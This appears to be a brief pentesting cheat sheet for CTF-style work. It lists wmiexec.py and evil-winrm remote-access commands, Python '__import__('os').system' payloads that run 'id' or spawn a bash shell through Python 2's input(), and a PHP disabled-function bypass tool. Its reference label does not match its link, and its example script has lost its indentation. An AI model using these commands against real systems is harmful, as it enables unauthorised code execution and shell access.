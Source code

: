 ## Remote Access
### wmiexec.py
[wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py)
```
wmiexec.py $Domain/$User:$Password@$IP
```

### evil-winrm
```
evil-winrm -i $IP -u $User -p $Password
```


## Run system command by using dynamic import
```python
__import__('os').system('id')
```
```python
__import__('os').system('/bin/bash')
```

## Exploitable python functions
### Python2
#### input()
The input() function in Python2 is known to be insecure, as it acts similar to the eval(). 
Reference: [HackTheBox "UpDown" Writeup](https://app.hackthebox.com/machines/Busqueda/writeups)
Example:
```python
import requests
url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
print "Website is up"
else:
print "Website is down"
```
This script uses input(). When asking for input, we can exploit this by using the following commands.
```python
__import__('os').system('id')
```
```python
__import__('os').system('/bin/bash')
```

# PHP
## Detect exploitable function (e.g. RCE)
dfunc-bypasser detects exploitable legacy function.
Python3.
https://github.com/rootsecdev/dfunc-bypasser
